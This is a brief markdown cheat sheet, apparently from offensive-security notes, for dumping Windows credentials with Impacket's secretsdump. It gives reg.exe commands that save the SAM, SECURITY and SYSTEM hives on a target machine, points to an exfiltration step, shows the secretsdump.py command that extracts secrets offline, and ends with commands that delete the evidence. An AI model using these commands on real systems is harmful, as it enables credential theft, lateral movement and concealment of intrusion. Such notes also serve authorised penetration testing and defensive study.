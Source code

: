 # Impacket Secretsdump

1. On target machine
    ```batch
    mkdir c:\temp
    reg.exe save hklm\sam c:\temp\sam.save
    reg.exe save hklm\security c:\temp\security.save
    reg.exe save hklm\system c:\temp\system.save
    ```

1. Retrieve the files
    * See [Data Exfiltration](../../#data-exfiltration)

1. On local machine (~Kali)
    ```bash
    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```
    
1. On target machine
    ```batch
    del c:\temp\sam.save
    del c:\temp\security.save
    del c:\temp\system.save
    rmdir c:\temp # Except when the "temp" folder already existed before Step 1. # Check if there are other contents in the folder
    ```


[^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)